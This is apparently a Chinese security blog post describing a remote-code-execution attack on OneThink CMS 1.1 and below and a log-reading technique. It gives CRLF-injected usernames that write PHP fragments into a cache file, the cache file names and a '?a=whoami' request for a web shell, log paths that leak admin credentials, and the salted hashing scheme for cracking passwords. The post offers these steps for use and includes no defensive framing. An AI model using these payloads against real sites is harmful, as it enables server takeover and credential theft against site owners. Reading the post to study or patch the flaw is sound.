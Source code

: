 #  OneThink文件缓存漏洞及日志读取   
原创 Hacker  0xh4ck3r   2025-01-19 01:03  
  
### 0x1 概述  
  
本文在没有管理员账号密码的前提下（因为没法爆破弱口令 -.-！），描述了如何利用onethink文件缓存漏洞getshell，适用版本为1.1及以下版本，适用条件为开放注册。其次再介绍一个读取日志的方法，该方法可获取onethink运行日志以及安装日志。  
### 0x2 注册登录文件缓存漏洞  
  
首先在开放注册的前提下，先注册一个用户，用户名为  
```
$a=$_GET[a];//

```  
  
填写其他注册需要的内容后，单次抓包，在burp里修改用户名为  
```
%0d%0a$a=$_GET[a];//

```  
  
同理注册另一个用户  
```
system($a);//

```  
  
抓包修改为  
```
%0d%0asystem($a);//

```  
  
最后就得到了两个用户，然后先登录用户   
  
_GET[a];// ，后登录用户 system($a);// ，登录过程中同样是抓包修改用户名，这样就会在缓存文件里写入如下图所示的代码：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtU4hU2WkdJB3zjhoib8rekVibibmcvhkDQibPNMKXU5LMvHWMeZB712FzNZw/640?wx_fmt=png&from=appmsg "")  
  
image-20230630162446092  
  
这样一来，只需要访问这个缓存文件即可getshell，需要写马的可以自己重新尝试构造用户名。接着在链接后面拼接：  
  
这里提供几个缓存文件的名，自己挨个试试吧：**（如果试了以下几个均失败可以考虑一下对方是否开启缓存，若报错，则需要考虑构造的用户名是不是导致缓存文件中的php代码错误了，可过一段时间缓存刷新后重试）**  
>   
> eeef39c86d6495ec8e502555deee2955.php  
> 82eb8eeca3aaa8b0126f94220b6b8195.php  
> 7665493b900f51fe6638c89144516207.php  
> ff7f4a808c442790de8722fb8d90d304.php  
  
```
/Runtime/Temp/82eb8eeca3aaa8b0126f94220b6b8195.php?a=whoami

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtU1IFmKTn6vwXlubopznhUvdy6uic7zapcSXTArEibib5mCDvX5OZLRkgUw/640?wx_fmt=png&from=appmsg "")  
  
image-20230630162714715  
### 0x3 运行日志查看  
  
最后这个呢是一个巧方法，若对方部署onethink时，未关闭日志记录，则会记录程序运行时的一些信息，因为onethink是基于tp3.2.3的，因此这个日志看起来好像跟tp3.2.3的日志一样，但是注意到一点就是onethink每个application都是单独存放的日志，并且我们知道日志命名格式为：23_06_30.log，这样我们只需要枚举出日志名即可获取到敏感日志了。  
```
http://localhost:81/Runtime/Logs/Install/23_06_27.log

```  
  
下图为缓存的数据库的信息，可查看到后台用户名以及密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUpVRdP6icKOPL5VOw9UnUCM7kD22oEu5W3nuFOOD6EossWD8sujaB8UA/640?wx_fmt=png&from=appmsg "")  
  
image-20230630164102875  
  
下图为缓存的数据库名  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRY0srnG8aC4xbibhnJtwbtUFTNMIuiahiayYzFRD25B8pvbvyCDV3HkuLMP4ic4GJa1UDwrL36xD8l9w/640?wx_fmt=png&from=appmsg "")  
  
image-20230630164711209  
  
至于密码是多少，大家自行写脚本进行枚举破解吧，加密方式为sha1加密输入的密码，再将sha1得到的值后面拼接 j."TM7r;Y9/cQlV]Lt|xeGdsqUFK6`pBHZ}85+>3 ，最后再将拼接的值进行md5加密。  
  
下方提供一个php加密的方式：（ adminadmin123 为密码）  
```
<?php echo(md5(sha1("adminadmin123") . 'j."TM7r;Y9/cQlV]Lt|xeGdsqUFK6`pBHZ}85+>3'));?>

```  
  
  
  
